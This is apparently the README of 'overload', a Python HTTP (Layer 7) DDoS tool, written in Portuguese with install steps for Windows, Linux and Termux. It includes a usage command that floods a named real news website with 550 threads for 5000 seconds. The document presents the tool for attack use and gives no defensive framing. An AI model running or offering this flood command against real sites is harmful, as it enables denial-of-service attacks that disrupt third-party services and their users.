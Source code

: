 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Janela Principal
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Instalação


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Instala Python 3.8 [aqui](https://www.python.org/downloads/release/python-38)
  - Abre o installer e clica em: `add python to PATH`
  - Faz download do overload <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">aqui</a>
  - Abre o cmd ou o PowerShell no diretório overload
  - Execute este comando: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ Como Usar
O comando básico para poder executar o overload é o seguinte.  

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Exemplo:  

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
